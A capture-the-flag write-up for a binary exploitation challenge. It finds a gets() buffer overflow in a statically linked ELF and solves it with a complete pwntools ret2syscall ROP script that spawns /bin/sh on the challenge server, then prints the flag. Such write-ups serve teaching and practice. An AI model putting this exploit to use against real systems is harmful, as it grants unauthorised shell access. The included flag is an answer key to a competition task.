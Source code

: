 # Secret Runes

The Return of Odin is near. Find the secret runes and prove yourself worthy of Valhalla and eternal glory!

Note: The flag format should be SIVBGR{}.

nc 167.99.118.184 31338


## Challenge

Running checksec to see protections and file to see what we are working with:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

```
└─$ file norse_chronicles2 
norse_chronicles2: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=2b69564eaeeb459b70c01294d870e57bcfb0037a, for GNU/Linux 3.2.0, not stripped
```

So automatically first thing I notice is we are working with a statically linked binary.

```
└─$ ./norse_chronicles2
Enter the runes of Yggdrasil:
Hello
You have not yet discovered the secrets.
```

Running the binary here doesn't really give us much so let's decompile and look at some code.

```c
undefined8 main(void)
{
  init();
  vulnerable_function();
  puts("You have not yet discovered the secrets.");
  return 0;
}

void vulnerable_function(void)
{
  char local_88 [128];
  
  puts("Enter the runes of Yggdrasil:");
  gets(local_88);
  return;
}
```

Here I have pulled out the main function and the function it calls from ghidra. We can see we have a blatant buffer overflow with no restrictions. And knowing that we are working with a static binary we can execute a ret2syscall attack.

I recently became familiar with [this technique](https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/rop-syscall-execv) and it made solving this challenge extremely easy. The only thing I needed to do was gather some gadgets and then write `/bin/sh` into memory and call execve with that address as an argument.

As far as getting writable memory, we can run the program in gdb and use vmmap:
```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000001000 r-- /cyberopen/pwn/secret_runes/norse_chronicles2
0x0000000000401000 0x000000000049a000 0x0000000000099000 r-x /cyberopen/pwn/secret_runes/norse_chronicles2
0x000000000049a000 0x00000000004c3000 0x0000000000029000 r-- /cyberopen/pwn/secret_runes/norse_chronicles2
0x00000000004c4000 0x00000000004cb000 0x0000000000007000 rw- /cyberopen/pwn/secret_runes/norse_chronicles2
0x00000000004cb000 0x00000000004d0000 0x0000000000005000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000004000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000002000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000021000 rw- [stack]
gef➤  
```
We can see that any address `0x00000000004c4000 - 0x00000000004d0000` is writable.

And in order to get our `/bin/sh` into that writable memory we will look for a `mov` instruction that will allow us to move it into that memory address after storing it in a register.

```python
from pwn import *

elf = context.binary = ELF('./norse_chronicles2')
#p = process('./norse_chronicles2')
p = remote('167.99.118.184', 31338)

#Offset to rip
offset = 136

#Gadgets used in ROP
pop_rdi = 0x0000000000401fdf # pop rdi ; ret
pop_rsi = 0x000000000040a04e # pop rsi ; ret
pop_rax_rdx_rbx = 0x000000000048101a # pop rax ; pop rdx ; pop rbx ; ret
syscall = 0x0000000000401d94 # syscall
writable_mem = 0x00000000004c8000
mov_rax_rdx_pop_rbx = 0x000000000048f958 # mov qword ptr [rax], rdx ; pop rbx ; ret
ret = 0x000000000040101a # ret

rop = b''
rop += p64(ret)

#Assigning rax writable memory address and rdx the string we want
rop += p64(pop_rax_rdx_rbx)
rop += p64(writable_mem) + b"/bin/sh\x00" + p64(0)

#Moving the string into writable memory for access
rop += p64(mov_rax_rdx_pop_rbx)
rop += p64(0)

#Rax to 0x3b for execve, rdx to 0
rop += p64(pop_rax_rdx_rbx)
rop += p64(0x3b) + p64(0) + p64(0)

#rdi to our /bin/sh and rsi to 0
rop += p64(pop_rdi)
rop += p64(writable_mem)
rop += p64(pop_rsi)
rop += p64(0)
rop += p64(syscall)

#Sendoff
payload = offset*b'A' + rop
p.sendline(payload)
p.interactive()
```

Running this script sets the binary up to execute the syscall and pop a shell.

## Flag

`SIVBGR{W3lc0m3_2_v4llh4lla}`
